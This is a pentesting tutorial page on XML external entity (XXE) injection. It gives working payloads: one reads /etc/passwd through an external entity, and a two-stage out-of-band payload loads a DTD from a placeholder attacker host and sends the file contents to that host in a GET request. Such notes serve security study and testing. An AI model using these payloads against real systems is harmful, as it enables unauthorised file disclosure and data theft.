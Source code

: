 ```yaml
---
title: XML external entities
tags:
  - web-app
  - pentesting
  - xml
  - injection
---
```


This section covers pwning XML parsers with **XML external entities (XXE)** injection attacks. We
can use XXE injection attacks to uncover information disclosure, server-side request forgery (SSRF),
remote command injection, and remote code execution vulnerabilities in web applications.

## Testing for XXE

Here's an example for testing for XXE in an XML parser for a web application. If we're providing the
following input to a web application, and the internal entity `lastname` is used to render the
output for the `User` element, we know we can inject XML entities for the application to process:

```xml
<?xml version="1.0" ?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname "Hacker">
]>
<User>
  <lastName>&lastname;</lastName>
  <firstName>Victim</firstName>
</User>
```

### Retrieving files

After verifying the vulnerability, we can use it to conduct information disclosure, targeting
content on the host's file system:

```xml
<?xml version="1.0" ?>
<!DOCTYPE data [
<!ELEMENT data ANY >
<!ENTITY lastname SYSTEM "file:///etc/passwd">
]>
<User>
  <lastName>&lastname;</lastName>
  <firstName>Victim</firstName>
</User>
```

We determine where this content is rendered, and then we can retrieve the contents of the file from
the web application.

### Error-based exploitation

If the information we're targeting isn't rendered by the web application in a way we can access
after exploitation, we can use **error-based exploitation** to possibly disclose the information
we're targeting. For example, `lastname` might have a maximum character length for the web
application's database used to store `User`s. If we request a file on the host system with a size
that exceed this limit, it's likely the web application will provide us with an error, leaking the
contents of the file we're targeting.

### Out-of-band exploitation

We can also conduct SSRF, coercing the victim machine to attempt to load external resources from our
server, disclosing information when the victim executes a `GET` request. Here's an example of a
payload that causes the victim to request our XML file and parse it, causing the victim to request a
second stage payload that discloses the information we're targeting via a `GET` request.

First stage payload:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE oob [
<!ENTITY % base SYSTEM "http://IP_ADDRESS/second-stage-payload.dtd">
%base;
%external;
%exfil;
]>
<entity-engine-xml>
</entity-engine-xml>
```

Second stage payload:

```xml
<!ENTITY % content SYSTEM "file:///etc/passwd">
<!ENTITY % external "<!ENTITY &#37; exfil SYSTEM 'http://IP_ADDRESS/out?%content;'>" >
```

The first payload will request the second stage payload, which will attempt to acquire the contents
of the `/etc/passwd` file. Then the second stage payload will attempt to acquire a resource from our
web server, and we render the content of the file in the `URL` the victim is requesting. This SSRF
attack leaks the contents of the file when the `GET` request reaches our web server.

Due to how URLs are parsed, it's likely a portion of this request will fail. Unfortunately
**out-of-band exploitation** for XXE vulnerabilities is a last resort, and not always the most
effective approach.

